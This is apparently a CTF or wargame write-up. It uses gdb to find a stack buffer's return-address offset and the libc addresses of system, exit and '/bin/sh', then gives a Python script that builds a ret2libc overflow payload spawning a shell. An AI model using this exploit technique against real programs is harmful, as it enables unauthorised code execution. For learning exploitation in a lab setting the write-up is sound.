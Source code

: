	(gdb)  x/50x 0xbffff6ac

We see that return address lies 80 bytes after the beginning of the buffer.

	(gdb) print 0xbffff6fc - 0xbffff6ac
		$16 = 80

Let's continue with examination:

	(gdb) x/20cb 0x8048620
		0x8048620:	40 '('	37 '%'	112 'p'	41 ')'	10 '\n'	0 '\000'	0 '\000'	0 '\000'

Numbers in hex are transferred to decimal with the help of programming calculator and finally we write the code in C.

# Exploitation

We can overwrite the return address and call system function with arguments. But they should be properly written to the stack.

> We’ll write the address of system to the location of the return address that we found. When ret command is executed, the stack pointer would move down to point to “return address 2”, which is where system function will expect its return address to be located (we’ll ignore it for now). The 4 bytes after that would be the first argument to system, so we need to put the address of string “/bin/sh” there.

In order to exploit this level we will need return address from the `p` function, `system` function address, `exit` function address and `/bin/sh` string address:

	1. **0x0804853e** <+106>:	ret - return address from p to main function. We should put it instead of 0x0804854a to cal system function
	2. $9 = {<text variable, no debug info>} 0xb7e6b060 <system>

	(gdb) p system
		$9 = {<text variable, no debug info>} 0xb7e6b060 <system>

	3. 0xb7f8cc58:	 "/bin/sh"

	(gdb) info proc map
		0xb7e2c000 0xb7fcf000   0x1a3000        0x0 /lib/i386-linux-gnu/libc-2.15.so
	(gdb) find 0xb7e2c000, +9999999, "/bin/sh"
		0xb7f8cc58
	(gdb) x/s 0xb7f8cc58
		0xb7f8cc58:	 "/bin/sh"

	4. 0xb7e5ebe0 <exit>

	(gdb) p exit
		$2 = {<text variable, no debug info>} 0xb7e5ebe0 <exit>

And now let's write exploitation:

	#!/usr/bin/python
	import struct
	
	buffer = ''
	buffer += 'AAAABBBBCCCCDDDDEEEEFFFFGGGGHHHHIIIIJJJJKKKKLLLLMMMMNNNNOOOOPPPPQQQQRRRRSSSSTTTT' # junk 80 letters
	buffer += struct.pack('I', 0x0804853e) # address of ret in p()
	buffer += struct.pack('I', 0xb7e6b060) # system
	buffer += struct.pack('I', 0xb7e5ebe0) # exit
	buffer += struct.pack('I', 0xb7f8cc58) # "/bin/sh"
	print(buffer)
